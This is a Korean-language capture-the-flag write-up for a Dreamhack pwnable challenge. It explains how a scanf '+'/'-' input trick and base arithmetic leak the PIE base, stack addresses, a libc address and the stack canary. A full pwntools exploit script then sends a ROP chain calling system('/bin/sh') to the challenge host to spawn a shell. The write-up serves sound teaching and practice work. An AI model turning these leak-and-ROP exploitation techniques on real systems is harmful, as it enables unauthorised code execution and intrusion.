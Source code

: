 `scanf`에 `+`나 `-`를 입력하면 아무것도 입력하지 않을 수 있다는 트릭이 있다. 값을 가져오는 곳에 코드 영역 주소가 있기 때문에 `+`를 입력하고 스택의 값을 더하면 `코드 영역 값 + alpha`의 값을 알 수 있고, 그냥 -1을 입력하면 `alpha`의 값을 알 수 있기 때문에 이 둘을 빼주고 `offset`을 빼주면 `pie_base`를 구할 수 있다.

```
0x7fffffffc850: 0x0000000000000000      0x0000000000000000
0x7fffffffc860: 0x0000000000000000      0x0000000000000000
0x7fffffffc870: 0x0000000000000000      0x0000000000000000
0x7fffffffc880: 0x0000000000000000      0x0000000000000000
0x7fffffffc890: 0x00007fffffffc9d8      0xd73910ae66126e00
0x7fffffffc8a0: 0x00007fffffffc8b0      0x000055555555558e
0x7fffffffc8b0: 0x00007fffffffc950      0x00007ffff7dc91ca
0x7fffffffc8c0: 0x00007fffffffc900      0x00007fffffffc9d8
```

`0x7fffffffc850`에 `unsigned long long int k[16];`이 선언되어 있다고 가정하자. `k[0] ~ k[7]`은 0으로 초기화되고, `k[8], k[10], k[12], k[14], k[15]`은 스택 관련 주소, `k[9]`는 카나리, `k[11]`은 코드 영역 주소, `k[13]`은 `libc` 관련 주소이다.
`base`를 `(1 << 56)`으로 설정하고 결과 값의 하위 6바이트만 보면 `k[15]`가 도출될 것이므로 스택 관련 주소의 모든 값을 알 수 있다. 이제 우리는 `k[9], k[13]`을 모르고 나머지 값은 다 안다.
다음으로 `k[13]`을 알아낼 것이다. 그렇게 생각한 이유는 `libc` 관련 주소는 상위 2바이트가 `\x00\x00`이기 때문이다. `base`를 `(1 << 63) + (1 << 8)`로 설정하고 최상위 바이트를 무시한다고 가정하면 `val`은 `((k[0] << 120) + ... + (k[8] << 56) + (k[9] << 48) + ... + (k[14] << 8) + k[15]) & ((1 << 64) - 1)`가 될 것이며, 이는 2바이트씩 밀려서 더해지는 형태가 될 것이다.
![[KakaoTalk_20250228_173012514.jpg]]

위 그림처럼 생각하면 `k[13]`의 하위 5바이트를 알 수 있다. `libc`는 `\x7e` 또는 `\x7f`로 시작하므로 합리적인 고정(`\x7f`)를 통해 `k[13]`을 알아낼 수 있다.
`base`를 `(1 << 64) - 1`로 하면 `-1`을 곱하는 것과 같은 효과를 준다. `k[9]`만 모르고 나머지 값은 다 알기 때문에 `k[9]`도 알 수 있다. 이로써 익스에 필요한 모든 값을 알아냈다. `ROP`로 해결한다.

# Exploit

```python
from pwn import *
from tqdm import *

context.terminal = ['tmux', 'splitw', '-h']

p = remote('host1.dreamhack.games', 20130)
#p = process('./prob2')
l = ELF('./libc.so.6')

breaknum = (1 << 64) + 1

def calc(base : int, inputs : list):
    p.sendlineafter(b'Base: ', str(base).encode())
    for i in inputs:
        if type(i) == int : 
            if i > (1 << 64) : break
            else : i = str(i).encode()
        p.sendline(i)
    p.recvuntil(b'Value: ')
    return p.recvline()[:-1]

sum1 = int(calc((1 << 56) + 1, [b'+', -1, breaknum]))
sum2 = int(calc((1 << 56) + 1, [-1, breaknum]))
sum1 += 1 << 64
pie_base = sum1 - sum2 - 0x4020
pie_base &= 0xffffffffffff
print(hex(sum1))
print(hex(sum2))
print(hex(pie_base))
print()

st1 = int(calc((1 << 56), [-1, breaknum]))
st1 = (st1 & ((1 << 48) - 1))
st2 = st1 - (0x7fffffffc778 - 0x7fffffffc6a0)
st3 = st1 - (0x7fffffffc778 - 0x7fffffffc6f0)
st4 = st1 - (0x7fffffffc778 - 0x7fffffffc650)
st5 = st1
print(hex(st1))
print(hex(st2))
print(hex(st3))
print(hex(st4))
print(hex(st5))
print()

b = int(calc((1 << 63) + (1 << 8), [-1, breaknum]))
b -= st1
b >>= 8
b -= st2
b >>= 8
l.address = b & 0xff
b >>= 8
b -= st3 & 0xffffffff
l.address += (b & 0xff) << 8
b >>= 8
b -= (pie_base + 0x158e) & 0xffffff
l.address += (b & 0xff) << 16
b >>= 8
b -= st4 & 0xffff
l.address += (b & 0xffff) << 24
l.address += 0x7f0000000000
l.address = l.address - (0x7ffff7dd51ca - 0x7ffff7dab000)
print(hex(l.address))

c = int(calc((1 << 64) - 1, [-1, breaknum]))
nocanaryc = st1 + pie_base + 0x158e + l.address + (0x7ffff7dd51ca - 0x7ffff7dab000)
nocanaryc += (1 << 64) * 4
nocanaryc -= st2 + st3 + st4 + st5
nocanaryc &= (1 << 64) - 1
c += 1 << 64
canary = c - nocanaryc
canary &= (1 << 64) - 1
print(hex(canary))

system = l.sym['system']
binsh = list(l.search(b'/bin/sh'))[0]
pop_rdi = l.address + 0x000000000010f75b
ret = l.address + 0x000000000002e81b

#gdb.attach(p, "b* calc+217\nc")
int(calc((1 << 64) - 1, [0, 0, 0, 0, 0, 0, 0, 0, 0, canary, 0, ret, pop_rdi, binsh, system, 0]))
p.interactive()
```